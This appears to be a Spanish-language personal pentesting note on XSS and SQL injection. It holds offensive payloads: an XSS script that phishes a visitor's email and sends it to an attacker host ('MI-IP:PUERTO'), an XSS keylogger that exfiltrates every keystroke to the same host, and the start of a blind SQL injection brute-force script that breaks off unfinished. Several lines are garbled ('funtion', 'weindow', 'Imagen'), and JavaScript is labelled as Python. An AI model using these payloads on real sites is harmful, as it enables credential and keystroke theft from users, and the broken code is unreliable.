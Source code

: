 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

xss
```python
<script>alert("XSS")</script>
```
xss
```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

xss keylogger
```python
<script>
	var k = "";
	document.onkeypress = funtion(e){
	e = e weindow.event;
	k += e.key
	var i = new Imagen();
	i.src = "http://MI-IP:PUERTO/" + k;
	}
</script>
```

```python
 #!/usr/bin/python3
import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
Characters = string.printable

def makeSQLI():

p1 = log.progress("Fuerza bruta")
p1.status("Iniciando progreso de fuerza bruta")

time.sleep(2)

p2 = log.progress("Datos extraidos")
extracted_info = ""

for position in range(1, 200)
	
```